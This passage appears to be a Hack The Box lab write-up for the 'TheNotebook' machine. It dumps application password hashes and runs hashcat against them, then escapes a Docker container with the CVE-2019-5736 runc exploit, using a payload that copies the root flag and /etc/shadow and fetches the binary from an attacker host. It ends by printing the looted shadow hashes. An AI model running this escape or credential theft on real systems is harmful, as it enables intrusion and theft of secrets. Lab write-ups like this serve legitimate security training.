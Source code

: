 Unfortunately cap_sys_module is not available, so that's a no go. We need to start looking for anything else of use.

  root@0f4c2517af40:/opt/webapp# cat create_db.py
    ..
    users = [
        User(username='admin', email='admin@thenotebook.local', uuid=admin_uuid, admin_cap=True, password="0d3ae6d144edfb313a9f0d32186d4836791cbfd5603b2d50cf0d9c948e50ce68"),
        User(username='noah', email='noah@thenotebook.local', uuid=noah_uuid, password="e759791d08f3f3dc2338ae627684e3e8a438cd8f87a400cada132415f48e01a2")

The hashes are 64 characters long and haven't been salted (no :) - looking on hashcat example hashes it is probably SHA256 hashes.
Try to crack them;

[root:/git/htb/thenotebook]# hashcat -a0 -m1400 web.hashes /usr/share/wordlists/rockyou.txt
  Session..........: hashcat
  Status...........: Exhausted
  Hash.Name........: SHA2-256
  Hash.Target......: web.hashes


2. Reading about docker privesc I came across CVE-2019-5736, where they use 'docker exec' to get root read/write.

a) Start by downloading the script and changing the payload to whatever you'd like:
  [root:/git/htb/thenotebook]# wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go
  root@nidus:/git/htb/thenotebook# cat main.go
    ..
    var payload = "#!/bin/bash \n cat /root/root.txt >> /tmp/thejuice && cat /etc/shadow >> /tmp/thejuice && chmod 777 /tmp/thejuice"

  [root:/git/htb/thenotebook]# go build main.go
  [root:/git/htb/thenotebook]# mv main exploit

b) Transfer the malicious file to the docker container and execute it:
  root@0f4c2517af40:/tmp# wget http://10.10.14.12/exploit
  root@4751ba9ed3da:/tmp# chmod +x exploit
  root@4751ba9ed3da:/tmp# ./exploit
    [+] Overwritten /bin/sh successfully

c) Trigger the exploit by starting a new docker session, note that we use '/bin/sh':
  noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
    No help topic for '/bin/sh'

  The exploit on the docker got triggered an terminated the service:
    [+] Overwritten /bin/sh successfully
    [+] Found the PID: 31
    [+] Successfully got the file handle
    [+] Successfully got write handle &{0xc000402060}

d) Go back to the vicitm host (thenotebook.htb) and gather your loot:

  noah@thenotebook:/tmp$ cat thejuice
    fe842e1e15cbe751b6bb98aea68425d4
    root:$6$OZ7vREXE$yXjcCfK6rhgAfN5oLisMiB8rE/uoZb7hSqTOYCUTF8lNPXgEiHi7zduz1mrTWtFnhKOCZA9XZu12osORyYnKF.:18670:0:99999:7:::
    ..
    noah:$6$fOy3f6Dp$i9.Ut7PlJpP19ZPTqmkmiRwqNunLqNEjNwq1iIeffXGi6OaDy8CtAEXXJf2SkO2fiZxuy.tWuWhsmyvl92L/W.:18670:0:99999:7:::
